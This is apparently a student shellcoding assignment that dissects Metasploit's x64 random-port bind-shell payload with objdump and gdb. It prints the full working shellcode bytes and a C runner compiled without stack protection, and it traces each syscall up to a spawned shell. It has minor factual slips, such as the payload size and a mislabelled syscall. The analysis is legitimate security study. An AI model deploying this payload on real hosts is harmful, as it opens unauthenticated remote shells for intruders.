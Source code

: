 ## Assignment #5.2: Shellcode `linux/x64/shell_bind_tcp_random_port` Dissection
---
---
### Introduction
---
The first `msfvenom` shellcode that is going to be dissected in functionality is the `linux/x64/shell_bind_tcp_random_port` payload.

Let's see it's options:
```bash
SLAE64>  msfvenom -p linux/x64/shell_bind_tcp_random_port --list-options
Options for payload/linux/x64/shell_bind_tcp_random_port:
=========================


       Name: Linux Command Shell, Bind TCP Random Port Inline
     Module: payload/linux/x64/shell_bind_tcp_random_port
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 57
       Rank: Normal

Provided by:
    Geyslan G. Bem <geyslan@gmail.com>

Description:
  Listen for a connection in a random port and spawn a command shell. 
  Use nmap to discover the open port: 'nmap -sS target -p-'.
```

The payload is only 78 bytes and it requires the following parameters:
- `LPORT`: The port to listen for the incoming connection
- `RHOST`: The target address

> NOTE: In the captures of `gdb`, comments are especified with the `<==` symbol. This is added when want to comment what's going on in the debugger.

### Creating the Shellcode
---
Will execute the `ls -l` command. Decided to use a command that can receive options to check how the payload handles it. Also added the full path to make the command string a 7 bytes length only. Let's generate the payload:
```c
SLAE64> msfvenom -p linux/x64/shell_bind_tcp_random_port -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 57 bytes
Final size of c file: 264 bytes
unsigned char buf[] = 
"\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29\x0f\x05"
"\x52\x5e\x50\x5f\xb0\x32\x0f\x05\xb0\x2b\x0f\x05\x57\x5e\x48"
"\x97\xff\xce\xb0\x21\x0f\x05\x75\xf8\x52\x48\xbf\x2f\x2f\x62"
"\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05";
SLAE64> 
```
The generated payload size, this time did not change in size.

### Run Shellcode. The C Template
---
To run the shellcode, will use of the `shellcode.c` template renamoed to `Payload_02.c`. The shellcode is placed in the `code[]` string:
```c
#include <stdio.h>
#include <string.h>

unsigned char code[]= \
"\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29\x0f\x05"
"\x52\x5e\x50\x5f\xb0\x32\x0f\x05\xb0\x2b\x0f\x05\x57\x5e\x48"
"\x97\xff\xce\xb0\x21\x0f\x05\x75\xf8\x52\x48\xbf\x2f\x2f\x62"
"\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05";

void main()
{
        printf("ShellCode Lenght: %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
Now it can be compiled:
```bash
gcc -fno-stack-protector -z execstack Payload_02.c -o Payload_02
```
When it's run, is listens for incoming connections in a random port. From another terminal using `netstat` check what's the listening port, and with `netcat`, can connect. A shell is spawned:

<img src="https://galminyana.github.io/img/A052_Shellcode_Run.png" width="75%" height="75%">

### `objdump`: First Approach
---
Once we get the executable, will use `objdump` to disassemble the ASM code. As `objdump` disassembles the code by sections, the one of interest is the `<code>` section. Is the one containing the payload shellcode:

```asm
SLAE64> objdump -M intel -D Payload_02
**_REMOVED_**
0000000000004060 <code>:
    4060:	48 31 f6             	xor    rsi,rsi
    4063:	48 f7 e6             	mul    rsi
    4066:	ff c6                	inc    esi
    4068:	6a 02                	push   0x2
    406a:	5f                   	pop    rdi
    406b:	b0 29                	mov    al,0x29
    406d:	0f 05                	syscall 
    406f:	52                   	push   rdx
    4070:	5e                   	pop    rsi
    4071:	50                   	push   rax
    4072:	5f                   	pop    rdi
    4073:	b0 32                	mov    al,0x32
    4075:	0f 05                	syscall 
    4077:	b0 2b                	mov    al,0x2b
    4079:	0f 05                	syscall 
    407b:	57                   	push   rdi
    407c:	5e                   	pop    rsi
    407d:	48 97                	xchg   rdi,rax
    407f:	ff ce                	dec    esi
    4081:	b0 21                	mov    al,0x21
    4083:	0f 05                	syscall 
    4085:	75 f8                	jne    407f <code+0x1f>
    4087:	52                   	push   rdx
    4088:	48 bf 2f 2f 62 69 6e 	movabs rdi,0x68732f6e69622f2f
    408f:	2f 73 68 
    4092:	57                   	push   rdi
    4093:	54                   	push   rsp
    4094:	5f                   	pop    rdi
    4095:	b0 3b                	mov    al,0x3b
    4097:	0f 05                	syscall 
	...
**_REMOVED_**
SLAE64> 
```
Per the disassembled code, a total of 5 syscalls been used. Let's see which ones are for the values of RAX before `syscall` instruction:
- `sys_socket` : Value 0x29
- `sys_listen` : Value 0x32
- `sys_accept` : Value 0x2b
- `sys_dup2`   : Value 0x21
- `sys_execve` : Value 0x3b

### The Fun: GDB Analysis
---
As how the shellcode is disasembled, the code can be divided in sections. This sections are defined by the different syscalls. To simplify the analysis, we going to debug section by section.

Let's load the exec file into `gdb`, setup the environment, and place a breakpoint in the code section with `b *&code`:

```asm
SLAE64> gdb ./Payload_02
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Reading symbols from ./Payload_02...(no debugging symbols found)...done.
(gdb) 
(gdb) set disassembly-flavor intel
(gdb) b *&code
Breakpoint 1 at 0x4060
(gdb) 
```
Now can start debugging, let's `run` the program and `disassemble` it:
```asm
(gdb) run
Starting program: /root/SLAE64/Exam/Assignment05/Payload_02 
ShellCode Lenght: 57

Breakpoint 1, 0x0000555555558060 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0000555555558060 <+0>:	xor    rsi,rsi
   0x0000555555558063 <+3>:	mul    rsi
   0x0000555555558066 <+6>:	inc    esi
   0x0000555555558068 <+8>:	push   0x2
   0x000055555555806a <+10>:	pop    rdi
   0x000055555555806b <+11>:	mov    al,0x29
   0x000055555555806d <+13>:	syscall 
   0x000055555555806f <+15>:	push   rdx
   0x0000555555558070 <+16>:	pop    rsi
   0x0000555555558071 <+17>:	push   rax
   0x0000555555558072 <+18>:	pop    rdi
   0x0000555555558073 <+19>:	mov    al,0x32
   0x0000555555558075 <+21>:	syscall 
   0x0000555555558077 <+23>:	mov    al,0x2b
   0x0000555555558079 <+25>:	syscall 
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
   0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
   0x0000555555558087 <+39>:	push   rdx
   0x0000555555558088 <+40>:	movabs rdi,0x68732f6e69622f2f
   0x0000555555558092 <+50>:	push   rdi
   0x0000555555558093 <+51>:	push   rsp
   0x0000555555558094 <+52>:	pop    rdi
   0x0000555555558095 <+53>:	mov    al,0x3b
   0x0000555555558097 <+55>:	syscall 
   0x0000555555558099 <+57>:	add    BYTE PTR [rax],al
End of assembler dump.
(gdb) 
```
All looks good, let's dissect the functionality.

#### Section 1: `sys_socket`

In this section, the `execve` call is to be used. From it's man page can get the function definition:
```c
int socket(int domain, int type, int protocol);
```
Then registers for this syscall need to get the following values:
- RAX gets the syscall number, 0x29
- RDI gets the domain. As it's an IPv4 connection, value has to be 2 (AF_INET)
- RSI gets the type of the connection. As it's a TCP oriented connection, value has to be 0x01 (SOCK_STREAM)
- RDX gets the protocol. As it's an IP connection, value has to be 0x00
Let's debug this part, reviewing that registers get this values before the syscall, and understanding what's done in the code:
```asm
(gdb) stepi
0x0000555555558063 in code ()
(gdb) stepi
0x0000555555558066 in code ()
(gdb) stepi
0x0000555555558068 in code ()
(gdb) stepi
0x000055555555806a in code ()
(gdb) stepi
0x000055555555806b in code ()
(gdb) stepi
0x000055555555806d in code ()
(gdb) disassemble 
Dump of assembler code for function code:
   0x0000555555558060 <+0>:	xor    rsi,rsi        <== ZEROes RSI
   0x0000555555558063 <+3>:	mul    rsi            <== RAX <- 0 and RDX <- 0
   0x0000555555558066 <+6>:	inc    esi            <== RSI <- 1 for SOCK_STREAM
   0x0000555555558068 <+8>:	push   0x2            <== RDI <- 2 for AF_INET
   0x000055555555806a <+10>:	pop    rdi
   0x000055555555806b <+11>:	mov    al,0x29        <== RAX <- 0x29 for syscall number
=> 0x000055555555806d <+13>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
At this point, let's review that registers got the right values:
```asm
(gdb) info registers rax rdi rsi rdx
rax            0x29                41
rdi            0x2                 2
rsi            0x1                 1
rdx            0x0                 0
(gdb) 
```
Then the syscall can be run, as the parameters are correct. Remember that this syscall returns in RAX the socket descriptor.
```asm
(gdb) stepi
0x000055555555806f in code ()
```
#### Section 2: `sys_listen`
Here in this section the `listen` call. From the man page:
```c
int listen(int sockfd, int backlog);
```
Values for registers for this call have to be:
- RAX gets the syscall number, 0x32
- RDI gets the sock_descriptor
- RSI gets the backlog, 0x00
Let's understand the code here:
```asm
(gdb) stepi
0x0000555555558070 in code ()
(gdb) stepi
0x0000555555558071 in code ()
(gdb) stepi
0x0000555555558072 in code ()
(gdb) stepi
0x0000555555558073 in code ()
(gdb) stepi
0x0000555555558075 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**   
   0x000055555555806f <+15>:	push   rdx         <== Stack <- 0x00. RDX been zero'ed at +3
   0x0000555555558070 <+16>:	pop    rsi         <== RSI <- 0 for the parameter
   0x0000555555558071 <+17>:	push   rax         <== Pushes the socket descriptor in the stack
   0x0000555555558072 <+18>:	pop    rdi         <== RDI <- socket descriptor. Pop'ed from stack
   0x0000555555558073 <+19>:	mov    al,0x32     <== RAX <- Syscall number
=> 0x0000555555558075 <+21>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
Everyting looks correct. Let's check if the registers have the right values before the syscall:
```asm
(gdb) info registers rax rdi rsi
rax            0x32                50
rdi            0x3                 3
rsi            0x0                 0
(gdb) 
```
Good. s expected.
#### Section 3: `sys_accept`
For the`accept` call, it's defined as:
```c
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
```
Registers need this values:
- RAX for the syscall number, 0x2b
- RDI for the socket descriptor, that's already in RDI from the previous section (value "3")
- RSI a pointer to the sockaddr
- RDX the length of this struct
As i don't understand why no values are assigned to RSI and RDX in the code, a further read of the `accept()` man page, clarifies everything:
```c
...
When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL.
...
```
This mean that this two registers can be set to 0x00. Let's understand what the code does:
```asm
(gdb) stepi
0x0000555555558077 in code ()
(gdb) stepi
0x0000555555558079 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x0000555555558077 <+23>:	mov    al,0x2b     <== Syscall number for accept()
=> 0x0000555555558079 <+25>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
RSI and RDX already got the NULL (`0x00`) value at instructions at +16 and + 18. Let's review the values of the registers before the syscall:
```asm
(gdb) info registers rax rdi rsi rdx
rax            0x2b                43
rdi            0x3                 3
rsi            0x0                 0
rdx            0x0                 0
(gdb) 
```
Good, the expected values. The syscall can be executed, and will return a socket descriptor in RAX. 

#### Section 4: `sys_dup2`
From the `dup2()` manpage:
```c
int dup2(int oldfd, int newfd);
```
This said, register values for this call have to be:
- RAX for the syscall number, 0x21
- RDI for the old socket descriptor. Has to be the value returned in RAX for the previous `accept` syscall
- RSI for new file descriptor to duplicate the old descriptor. Will be the file descriptor for `stdin`, `stdout`, and `stderr`. 

> Ass the `accept()` will pause the program until a connection is received, a `netcat` connection is done from another terminal. Still while debugging, the program wont work as expected because no `dup2()`and no `execve()` been done yet. 

Reviewing the code:
```asm
(gdb) stepi
0x000055555555807b in code ()
(gdb) stepi
0x000055555555807c in code ()
(gdb) stepi
0x000055555555807d in code ()
(gdb) stepi
0x000055555555807f in code ()
(gdb) stepi
0x0000555555558081 in code ()
(gdb) stepi
0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi         <== RDI has the socket descriptor from `socket` call (that's "3")
   0x000055555555807c <+28>:	pop    rsi         <== RSI <- Socket descriptor
   0x000055555555807d <+29>:	xchg   rdi,rax     <== RDI <- Socket descriptor for the `accept`. This is the 
   0x000055555555807f <+31>:	dec    esi         <== RDI = RDI - 1
   0x0000555555558081 <+33>:	mov    al,0x21     <== Syscall Number for `dup2`
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>   <== Jumps to +31 to `dup2()` another new file descriptor
**_REMOVED_**
End of assembler dump.
(gdb) 
```
The code simply places the old file descriptor into RDI, and the new one into RSI. The `jne` at +37 jumps back to +31, that decrements the value for RSI to duplicate another new file descriptor. New file descriptors will be duplicated in this order: `stderr`("2"), `stdout`("1") and then `stdin`("0"). When RSI value is "0", then the jump is not done and the program continues the flow.
To check that register valuesare correct before the syscall, let's place a breakpoinit at the +35 just before executing the syscall to be able to review it the 3 times it's called. Also at +39 `push rdx` after the duplication code to stop once it's done:
```asm
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
   0x0000555555558087 <+39>:	push   rdx
**_REMOVED_**
End of assembler dump.
(gdb) info registers rdi rsi rax
rdi            0x4                 4
rsi            0x2                 2
rax            0x21                33
(gdb) b *0x0000555555558083
Breakpoint 2 at 0x555555558083
(gdb) b *0x0000555555558087
Breakpoint 3 at 0x555555558087
(gdb) 
```
In the first loop to duplicate `stderr`, RAX has to be 0x21, RDI has to be "0x04", and RSI has to be "0x02". Let's check:
```asm
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x2                 2
(gdb) 
```
Let's `continue` execution. It will do the jump, do the operations, and again before executing the syscall. This is loop 2 to duplicate `stdout`, hence values for registers must be "0x21" for RAX, "0x04" for RDI and "0x01" for RSI:
```asm
(gdb) c
Continuing.
Breakpoint 2, 0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
**_REMOVED_**
End of assembler dump.
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x1                 2
(gdb) 
```
If `continue` again, will jump to +31 again for the duplication of `stdin`. Here the values have to be RAX to "0x21", RDI keeps the "0x04" value, and RSI updates to "0x00". 
```asm
(gdb) c
Continuing.
Breakpoint 2, 0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
**_REMOVED_**
End of assembler dump.
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x0                 0
(gdb) 
```
Awesome. Everything as it should. Now let's `continue` the program, and this time won't jump and will stop at +39, ending the `dup2` section:
```asm
(gdb) c
Continuing.
Breakpoint 3, 0x0000555555558087 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
=> 0x0000555555558087 <+39>:	push   rdx
**_REMOVED_**
End of assembler dump.
(gdb) 
```
#### Section 5: `sys_execve`

From the `execve` manpage:
```c
int  execve  (const  char  *filename,  
              const  char *argv [], const char
              *envp[]);
```
Also reviewing the code for this section in `gdb`, there is an hex value (`0x68732f6e69622f2f`) at +40 that ends being pushed in the stack at +50. Let's see what this value is:
```python
>>> "68732f6e69622f2f".decode('hex')[::-1]
'//bin/sh'
>>> 
```` 
This means that `execve` will execute the hardcoded command `//bin/sh`. And this defines values for the registers as follows:
- RAX: Syscall number, "0x3b"
- RDI: The memory address for the `//bin/sh` string
- RSI: The pointer to the memory address containing the address of the parameters. As no parameters are needed or used, simply gets the NULL value "0x00"
- RDX: NULL value, "0x00"
The Stack Technique is used, hence will need to review the values pushed in the stack before the syscall and the registers contents. `stepi`'ing and following the code, and stop just before the syscall:

```asm
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED__**
=> 0x0000555555558087 <+39>:	push   rdx
   0x0000555555558088 <+40>:	movabs rdi,0x68732f6e69622f2f
   0x0000555555558092 <+50>:	push   rdi
   0x0000555555558093 <+51>:	push   rsp
   0x0000555555558094 <+52>:	pop    rdi
   0x0000555555558095 <+53>:	mov    al,0x3b
   0x0000555555558097 <+55>:	syscall 
End of assembler dump.
(gdb) stepi                                        <== Executes push rdx
0x0000555555558088 in code ()
(gdb) x/xg $rsp
0x7fffffffe750:	0x0000000000000000                 <== RDX is Pushed. RDX had 0x00 value from +3
(gdb) stepi                                        <== Executes movabs rdi,"//bin/sh"
0x0000555555558092 in code ()
(gdb) stepi                                        <== Pushes String to Stack. Executes push rdi
0x0000555555558093 in code ()
(gdb) x/s $rsp                                     <== Check top of the stack
0x7fffffffe748:	"//bin/sh"                         <== The string is in the stack
(gdb) stepi                                        <== Pushes the address of //bin/sh string into 
0x0000555555558094 in code ()                       == the stack. Executes push rsp
(gdb) stepi                                        <== RDI <- @ //bin/sh string. Executes pop rdi
0x0000555555558095 in code ()
(gdb) stepi
0x0000555555558097 in code ()
(gdb) 
```
Now the **RIP** is pointing to the `syscall` instruction. Let's stop here. The stack contents for what's been just debuged should be:
```asm
  Stack Address          Stack Content        
|------------------|------------------------|
|  0x7fffffffe748  |   "//bin/sh"           | 
|  0x7fffffffe750  |   0x0000000000000000   |
|-------------------------------------------|
```
Let's check that's ok:
```asm
(gdb) x/2xg $rsp
0x7fffffffe748:	0x68732f6e69622f2f	0x0000000000000000
(gdb) 
```
Hence, RSI should have the **`0x7fffffffe748`** as per the instruction executed at +52:
```asm
(gdb) info registers rdi
rdi            0x7fffffffe748      140737488349000
(gdb) x/s $rdi
0x7fffffffe748:	"//bin/sh"
(gdb) 
```
And RSI and RDX should have NULL values as no parameters are passed to the function:
```asm
(gdb) info registers rsi rdx
rsi            0x0                 0
rdx            0x0                 0
(gdb) 
```
#### The End 
Ok, all looks as it was expected. After `stepi` into the syscall, the shell will be spawned in our `netcat` session that we had to open to continue debugging in the previous sections:
```asm
(gdb) stepi
process 1513 is executing new program: /usr/bin/dash
(gdb) 
```
With the expected results:

<img src="https://galminyana.github.io/img/A052_Shellcode_End.png" width="75%" height="75%">

> However, didnt came this following question to you? Where is the code to generate the random port number? This is answered below

### Thoughts
---
From this analysis, some tricks been learned:

- No need to use the `sys_bind` syscall. As the code did not use it, researched about why not being used, and came up with a comment at StackOverflow. There are some posts that says that if a TCP or UDP socket is being used, the kernel will automatically bind the socket to a suitable port number. **This also the way that the payload uses to generate the random port!**. As the kernel defines a random port and binds it to the connection, the code to create a random port is not needed and reduces considerably the shellcode size.
- When using the `sys_accept`, no value it returns in the sockaddr struct will be used. Researching reading the man page further, in the thirth paragraph of the Description section, says that _"When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL."_. Not having to do all this work saves us time and shellcode size.
- When the command to be executed by `sys_execve` does not have any parameter, the second and thirth parameter can be NULL. Then only the command is executed without parameters.
- The use of the `mul` instruction to initialize to "0x00" the value of RAX and RDX registers at the same time.

With this learnings, will have to review the payloads created in the [Assignment01](Assignment01) and [Assignment02](Assignment02) applying this learned techniques to make their shellcode size reduced.

### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment05) for this assignment contains the following files:

- [Payload_02.c](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Payload_02.c) : The C file cloned from `shellcode.c` to execute the `linux/x64/shell_bind_tcp_random_port` shellcode.
- [Shellcode_02.txt](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Shellcode_02.txt) : The rax shellcode in hex into a text file.

### The End
---
This pages have been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html).

Student ID: PA-14628
 
